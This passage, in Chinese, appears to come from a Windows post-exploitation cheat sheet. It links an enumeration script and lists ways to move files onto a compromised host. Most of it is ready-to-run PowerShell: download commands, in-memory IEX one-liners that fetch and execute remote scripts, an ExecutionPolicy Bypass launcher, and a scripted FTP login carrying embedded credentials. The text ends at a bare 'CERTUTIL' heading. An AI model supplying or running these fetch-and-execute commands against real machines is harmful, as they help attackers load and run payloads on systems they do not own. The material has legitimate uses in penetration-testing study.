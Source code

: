 枚举脚本  
这个脚本会自动完成上述所有操作  
[https://github.com/absolomb/WindowsEnum](https://github.com/absolomb/WindowsEnum)

文件传输
----

PowerShell Cmdlet（Powershell 3.0 及更高版本）

```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

PowerShell One-Liner

```
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename")
```

内存中的 PowerShell 单行脚本执行

```
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

PowerShell 与代理

```
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

PowerShell 脚本

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

通过文本文件进行非交互式 FTP。当您只有有限的命令执行时很有用。

```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt

ftp -v -n -s:ftp.txt
```

CERTUTIL
